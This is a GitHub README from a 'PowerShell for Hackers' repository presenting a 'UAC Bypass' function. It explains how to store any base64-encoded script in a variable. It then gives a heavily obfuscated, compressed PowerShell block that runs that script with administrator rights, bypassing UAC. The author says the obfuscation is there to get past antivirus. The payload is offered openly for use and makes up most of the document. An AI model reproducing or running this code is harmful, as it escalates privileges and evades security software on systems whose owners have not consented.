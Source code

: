 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# UAC Bypass

## Description

This is a bonus function I am including with this repository. It will allow you to run any base64 encoded script from a standard Powershell console regardless
if Admin Privledges are required. It will open an Admin prompt and execute your code bypassing the UAC. In order to get this past the Anti Virus I have to heavily 
obfuscate it. So with that being said you really should not run code if you do not know what it does so user discretion is advised. 

## The Function

### [UAC-Bypass] 

This function has 2 parts. 
You have the ```$code``` variable you can store any base64 encoded script into. 
You can use my [Text to Base64](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/B64.md) function to encode your own scripts.

```
$code = "TgBlAHcALQBJAHQAZQBtACAAQwA6AFwASQB0AC0AVwBvAHIAawBlAGQALgB0AHgAdAA="
```
Next you have a highly obfuscated block of code that will run any Base64 encoded script stored in the ```$code``` variable with Admin rights. 

```
(New-OBJEct SYsTEm.IO.StReamREADer( (New-OBJEct  iO.COmpREssioN.dEflAtEstrEam([SYStEm.Io.mEMoRYStREAm] [CoNVERT]::fROmBAse64STrING( 'hY6xCsIwFEV/5RG6ph0ci1MHBZEOQacsobmtQtKEvEj9fJuC4FT3e849VX89HUUMCxI/4FyNN0hiHqgaggWJNmEiYy2J86W7aRXGvJgE3TnDDNZ18JNWBdV9xKyH4L2ZraDGUrXKqRn/KTxLRs7PeWLdvdIdaaNFUYvCj8GuBxGp1LUqm5SlckAkyXTY9BYOGbuR4puyv/2t2ZAP'),[sySteM.iO.COmPREsSion.COMprEssIONmODe]::decOMpreSS ) ) , [tExt.eNcODINg]::ascIi)).rEAdToEND( )|& ( $SHELLId[1]+$ShELLid[13]+'X')
```

<p align="right">(<a href="#top">back to top</a>)</p>


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

I am Jakoby
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
